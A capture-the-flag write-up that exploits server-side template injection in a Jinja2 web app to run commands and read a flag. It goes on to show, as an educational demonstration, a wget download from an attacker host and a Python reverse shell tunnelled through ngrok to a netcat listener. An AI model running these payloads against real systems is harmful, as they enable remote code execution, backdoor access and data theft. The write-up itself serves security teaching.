# Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/


## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.



The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.


Our input is displayed successfully. A vulnerability called Server Side Template Injection (SSTI) could be present in this web app. SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side. Potential threats include unauthorised file disclosure and arbitrary code execution. The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).

A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. Inserting the input “{{7*7}}” into the url parameter prints the output of 49, confirming the existence of SSTI.


In order to use the correct payload, we will need to identify the template engine. By injecting an invalid payload, an error will trigger and the engine is identified. However if the error messages are suppressed, we will need to inject language-specific payloads. Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection


In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).

SSTI Payloads can be found in PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

We will use the following payload to execute the “id” command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```


List files in the directory using “ls” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```


The flag.txt is discovered in the directory. Obtain the flag using “cat” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```


The flag obtained is **CZ4067{3xp1oiT_sStI}**.


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

Curl command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

Wget command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```


Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. However, this will cause security issues as our Public IP Address will be disclosed. Thus, we will set up a Command and Control (C2) Server using **ngrok**. Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

The service will start and traffic is now forwarded from ngrok service to our localhost


Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.


Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

